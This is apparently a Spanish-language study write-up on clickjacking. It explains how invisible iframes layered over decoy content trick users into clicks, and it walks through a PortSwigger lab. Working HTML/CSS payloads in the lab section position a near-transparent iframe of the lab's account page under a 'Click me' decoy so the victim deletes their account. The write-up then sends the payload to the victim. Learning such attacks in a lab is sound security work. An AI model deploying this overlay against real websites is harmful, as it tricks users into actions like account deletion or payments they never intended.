



## ¿ Que es clickjacking?

El clickjacking es un ataque basado en la interfaz en el que se engaña al usuario para que haga clic en contenido accionable de un sitio web oculto al hacer clic en otro contenido de un sitio web señuelo. Consideremos el siguiente ejemplo:

Un usuario web accede a un sitio web señuelo (quizás se trate de un enlace proporcionado por un correo electrónico) y hace clic en un botón para ganar un premio. Sin saberlo, ha sido engañado por un atacante para que pulse un botón oculto alternativo, lo que da lugar al pago de una cuenta en otro sitio. Este es un ejemplo de ataque de clickjacking. La técnica se basa en la incorporación de una página web invisible y accionable (o varias páginas) que contiene un botón o un enlace oculto, por ejemplo, dentro de un iframe. El iframe se superpone al contenido de la página web señuelo que el usuario espera ver. Este ataque se diferencia de un ataque CSRF en que el usuario debe realizar una acción, como hacer clic en un botón, mientras que un ataque CSRF se basa en falsificar una solicitud completa sin el conocimiento ni la intervención del usuario.

## Cómo construir un ataque básico de clickjacking

La protección contra los ataques CSRF suele proporcionarse mediante el uso de un token CSRF: un número o nonce específico de la sesión y de un solo uso. Los ataques de clickjacking no se mitigan con el token CSRF, ya que la sesión objetivo se establece con contenido cargado desde un sitio web auténtico y todas las solicitudes se realizan dentro del dominio. Los tokens CSRF se colocan en las solicitudes y se envían al servidor como parte de una sesión que se comporta con normalidad. La diferencia con respecto a una sesión de usuario normal es que el proceso se produce dentro de un iframe oculto.

Los ataques de clickjacking utilizan CSS para crear y manipular capas. El atacante incorpora el sitio web objetivo como una capa iframe superpuesta en el sitio web señuelo. A continuación se muestra un ejemplo que utiliza la etiqueta de estilo y los parámetros:

```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>

```

El iframe del sitio web de destino se coloca dentro del navegador de manera que se produzca una superposición precisa de la acción de destino con el sitio web señuelo utilizando valores de posición de anchura y altura adecuados. Se utilizan valores de posición absolutos y relativos para garantizar que el sitio web de destino se superponga con precisión al señuelo, independientemente del tamaño de la pantalla, el tipo de navegador y la plataforma. El índice z determina el orden de apilamiento de las capas del iframe y del sitio web. El valor de opacidad se define como 0,0 (o cercano a 0,0) para que el contenido del iframe sea transparente para el usuario. La protección contra el clickjacking del navegador puede aplicar una detección de transparencia del iframe basada en umbrales (por ejemplo, la versión 76 de Chrome incluye este comportamiento, pero Firefox no). El atacante selecciona los valores de opacidad para que se logre el efecto deseado sin activar los comportamientos de protección.

## Lab: Basic clickjacking with CSRF token protection




Para resolver el laboratorio y que la victima elimine su cuenta  



Es necesario crear e ir probando para que quede bien `click me` en el botón que deseamos que la victima presione.

```c
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0aa7000f031f0cf78085daf2007800df.web-security-academy.net/my-account"></iframe>
```




Ahora debemos cambiar la opacidad del iframe a `0.00001` y no se vea

```c
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 600px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0aa7000f031f0cf78085daf2007800df.web-security-academy.net/my-account"></iframe>
```

Luego de ellos solo debemos guardar y enviar a la victima.